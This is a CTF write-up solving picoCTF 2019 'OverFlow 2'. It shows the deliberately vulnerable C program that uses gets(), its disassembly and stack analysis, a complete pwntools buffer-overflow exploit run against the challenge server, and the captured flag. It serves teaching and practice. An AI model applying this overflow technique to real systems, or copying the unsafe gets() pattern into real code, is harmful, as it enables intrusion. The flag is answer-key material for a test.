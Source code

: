 # PicoCTF 2019 - OverFlow 2
Author: PinkNoize

Binary Exploitation - 250

> Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434 on the shell server.

## TL;DR

The challenge provides a program with a classic buffer overflow and a function to print the flag. To solve, overwrite a return address with the address of the flag function and set the expected function arguments.

# Writeup

This challenge is identical to [OverFlow 1](overflow1.md) except that it expects certain arguments to be passed to `flag()`. This challenge provides us with a flag file, a binary and the source code for that binary.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Like Overflow 1, we have to change the return address of `vuln()` to `flag()`. We can get the offset from `buf` to the return address by viewing the assembly.

```gas
08048676 <vuln>:
8048676:       55                      push   ebp
8048677:       89 e5                   mov    ebp,esp
8048679:       53                      push   ebx
804867a:       81 ec b4 00 00 00       sub    esp,0xb4
8048680:       e8 9b fe ff ff          call   8048520 <__x86.get_pc_thunk.bx>
8048685:       81 c3 7b 19 00 00       add    ebx,0x197b
804868b:       83 ec 0c                sub    esp,0xc
804868e:       8d 85 48 ff ff ff       lea    eax,[ebp-0xb8]
8048694:       50                      push   eax
8048695:       e8 96 fd ff ff          call   8048430 <gets@plt>
804869a:       83 c4 10                add    esp,0x10
804869d:       83 ec 0c                sub    esp,0xc
80486a0:       8d 85 48 ff ff ff       lea    eax,[ebp-0xb8]
80486a6:       50                      push   eax
80486a7:       e8 b4 fd ff ff          call   8048460 <puts@plt>
80486ac:       83 c4 10                add    esp,0x10
80486af:       90                      nop
80486b0:       8b 5d fc                mov    ebx,DWORD PTR [ebp-0x4]
80486b3:       c9                      leave  
80486b4:       c3                      ret    
```
From the call to `gets()`, we can see that the only local variable, `buf`, is placed at ebp-0xb8. Knowing that ebp points at the previous base pointer, we can figure out that the return address is located at ebp+0x4. This means we have to write (ebp+0x4-(ebp-0xb8)) = 0xbc bytes to overwrite the return address.
```
High Addresses
                /-----------------------\
                | Previous Stack Frame  |
                \-----------------------/
                /-----------------------\
                |       Arguments       |
                |-----------------------|
                |     Return Address    |
    Current     |-----------------------|
    Stack       | Previous Base Pointer | <-- ebp
    Frame       |-----------------------|
                |  Backed up Registers  | 
                |-----------------------|
                |    Local Variables    | <-- esp
                \-----------------------/
Low Addresses
```

We will also have to pass arguments to flag if we want it to print the flag. As we are not calling a function but instead doing a return to the start of the function, we need to setup the stack so that after the return from `vuln()`, we will have half of the stack frame setup. Before the return from `vuln()`, our stack will have to look like this...

```
                /-----------------------\
                |          Arg2         |
                |-----------------------|
                |          Arg1         |
                |-----------------------|
                |  Dummy Return Address |
                |-----------------------|
                |     flag() Address    |
                |-----------------------|
                |          AAAA         | <-- ebp
                |-----------------------|
                |          AAAA         |
                |-----------------------|
                            .
                            .
                            .
                |          AAAA         | <-- esp
                \-----------------------/ 
```

I will be using [pwntools](https://github.com/Gallopsled/pwntools) to create the exploit for this one to show how a CTF framework can simplify some of the quirks of exploit writing. The script below requires you to [setup ssh keys](https://www.digitalocean.com/community/tutorials/how-to-set-up-ssh-keys--2) for the picoCTF shell server.

```python
from pwn import *
# arch or architecture is i386 as this is a 32 bit binary (you can check this with file)
# os or operating system is linux as the picoCTF shell is on a linux system 
context(arch='i386', os='linux')

# ssh into the shell server
s1 = ssh(
    host='2019shell1.picoctf.com',
    user='user',
    keyfile='~/.ssh/picoCTF',
)
s1.set_working_directory(b'/problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434')
# run vuln
p = s1.process('./vuln')
# parse the elf file
elf = p.elf

flag_addr = elf.symbols['flag']

# Receive the prompt
p.recvline()

# Pad up to the return address
payload = b"A"*(0xBC)

# add flag() address as a 32 bit value
# pwntools automatically makes it little endian as we specified the context above
payload += p32(flag_addr)

# Add dummy return
payload += p32(0xAAAAAAAA)

# Add arg1
payload += p32(0xDEADBEEF)

# Add arg2
payload += p32(0xC0DED00D)

# Send the payload
p.sendline(payload)

print(p.recvallS())
p.close()
```

We can then run this script to receive the flag. Make sure to substitute your username and path to keyfile.

```bash
┌─[user@hostname]─[~]
└──╼ $python3 solution.py 
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] user@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[*] Working directory: '/problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434'
[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1935868
[+] Opening new channel: 'readlink -f /problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434/vuln': Done
[+] Receiving all data: Done (61B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[+] Downloading '/lib32/libc.so.6' to '/home/user/2019shell1.picoctf.com/lib32/libc.so.6': Found '/lib32/libc-2.27.so' in ssh cache
[+] Downloading '/lib/ld-linux.so.2' to '/home/user/2019shell1.picoctf.com/lib/ld-linux.so.2': Found '/lib32/ld-2.27.so' in ssh cache
[+] Downloading '/problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434/vuln' to '/home/user/2019shell1.picoctf.com/problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434/vuln': Found '/problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434/vuln' in ssh cache
[*] '/home/user/2019shell1.picoctf.com/problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Receiving all data: Done (238B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1935868)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAæ
\x04ªªªªï¾­ÞÐÞÀ
picoCTF{arg5_and_r3turn598632d70}
```